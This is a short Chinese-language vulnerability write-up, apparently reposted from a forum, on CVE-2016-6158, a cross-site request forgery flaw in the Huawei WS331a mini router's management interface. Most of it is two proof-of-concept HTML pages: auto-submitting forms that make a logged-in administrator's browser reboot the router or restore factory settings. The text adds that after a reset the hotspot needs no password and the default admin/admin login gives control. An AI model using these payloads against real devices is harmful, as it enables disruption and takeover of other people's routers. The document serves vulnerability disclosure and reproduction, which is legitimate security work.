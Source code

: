 # （CVE-2016-6158）华为WS331a产品管理页面存在CSRF漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3389](https://www.zhihuifly.com/t/topic/3389)

# （CVE-2016-6158）华为WS331a产品管理页面存在CSRF漏洞

## 一、漏洞简介

HuaweiWS331a是中国华为（Huawei）公司的一款迷你无线路由器。使用WS331a-10V100R001C01B112之前版本软件的HuaweiWS331a路由器的管理界面存在跨站请求伪造漏洞。远程攻击者可通过提交特制的请求利用该漏洞恢复出厂设置或重启设备。

## 二、漏洞影响

WS331a-10 V100R001C02B017SP01及之前版本

## 三、复现过程

### POC实现代码如下：

> 当管理员登陆后，打开如下poc页面，WS331a设备将重启。

```
<form action="http://192.168.3.1/api/service/reboot.cgi" method="post">
</form>
<script> document.forms[0].submit(); </script> 
```

> 当管理员登陆后，打开如下poc页面，WS331a设备将恢复初始化配置。设备自动重启后不需要密码即可连接热点，并使用amdin/admin对设备进行管理控制。

```
<form action="http://192.168.3.1/api/service/restoredefcfg.cgi" method="post">
</form>
<script> document.forms[0].submit(); </script> 
```